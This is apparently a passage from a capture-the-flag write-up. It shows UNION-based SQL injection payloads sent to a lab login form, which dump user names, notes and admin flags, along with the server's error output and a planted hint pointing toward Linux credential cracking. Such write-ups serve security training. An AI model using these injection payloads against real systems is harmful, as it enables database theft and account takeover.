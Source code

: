 user=' union select 1,2,3,group_concat(name) FROM users;-- -&password=123

```json
{"error":"The password for 1 is incorrect! Lucas Washington,Harry Turner,Andrea Phillips,Liam Hernandez,Adam Jenkins,Landon Alexander,Kennedy Anderson,Sydney Wright,Aaliyah Sanders,Olivia Murphy,Olivia Ross,Grace Brooks,Jordan White,Diego Baker,Liam Ward,Carlos Barnes,Carlos Lopez,Oliver Gonzalez,Sophie Sanchez,Maya Sanders,Joshua Reed,Aaliyah Allen,Jasmine King,Jonathan Long,Samuel Anderson,Julian Robinson,Gianna Harris,Madelyn Morgan,Ella Garcia,Zoey Gonzales,Abigail Morgan,Joseph Rivera,Elizabeth Cook,Parker Cox,Savannah Torres,Aaliyah Williams,Blake Washington,Claire Miller,Brody Stewart,Kimberly Murphy"}
```

user=' union select 1,2,3,group_concat(notes) FROM users;-- -&password=123

```json
{"error":"The password for 1 is incorrect! contact administrator. Congrats on SQL injection... keep digging,My linux username is my first name, and password uses best64, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging"}
```

user=' union select 1,2,3,group_concat(admin) FROM users;-- -&password=123

```json
{"error":"The password for 1 is incorrect! 0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0"}
```

Ok let's save the names first and we also have a user named `Harry Turner`. And also we got a hint at notes. 

```
My linux username is my first name
 and password uses best64
```
